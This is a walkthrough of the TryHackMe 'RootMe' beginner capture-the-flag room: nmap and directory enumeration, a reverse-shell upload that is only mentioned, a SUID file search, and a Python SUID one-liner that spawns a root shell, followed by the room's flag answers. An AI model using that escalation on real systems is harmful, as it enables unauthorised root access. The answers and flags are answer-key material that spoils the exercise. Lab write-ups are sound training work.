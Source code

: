 # RootMe

A ctf for beginners, can you root me?

[RootMe](https://tryhackme.com/room/rrootme)

## Topic's

* Network Enumeration
* Web Enumeration
* Abusing SUID/GUID

## Deploy the machine

Connect to TryHackMe network and deploy the machine. If you don't know how to do this, complete the OpenVPN room first.

1. Deploy the machine 

`No answer needed`

## Reconnaissance

First, let's get information about the target.

```
kali@kali:~/CTFs/tryhackme/RootMe$ sudo nmap -A -Pn -sC -sV -O 10.10.16.101
[sudo] password for kali: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 13:09 CEST
Nmap scan report for 10.10.16.101
Host is up (0.038s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/4%OT=22%CT=1%CU=36022%PV=Y%DS=2%DC=T%G=Y%TM=5F79AD9
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11
OS:NW6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   37.33 ms 10.8.0.1
2   37.59 ms 10.10.16.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.41 seconds
```

1. Scan the machine, how many ports are open?

`2`

2. What version of Apache are running?

`2.4.29`

3. What service is running on port 22?

`SSH`

4. Find directories on the web server using the GoBuster tool.

* [http://10.10.16.101/panel/](http://10.10.16.101/panel/)
* [http://10.10.16.101/uploads/](http://10.10.16.101/uploads/)

1. What is the hidden directory?

`/panel/`

## Getting a shell

Find a form to upload and get a reverse shell, and find the flag.

1. user.txt

`THM{y0u_g0t_a_sh3ll}`

## Privilege escalation

Now that we have a shell, let's escalate our privileges to root.

1. Search for files with SUID permission, which file is weird?

```
bash-4.4$ find / -user root -perm /4000 2> /dev/null
find / -user root -perm /4000 2> /dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

`/usr/bin/python`

2. Find a form to escalate your privileges.

`No answer needed`

3. root.txt

```
bash-4.4$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
#
```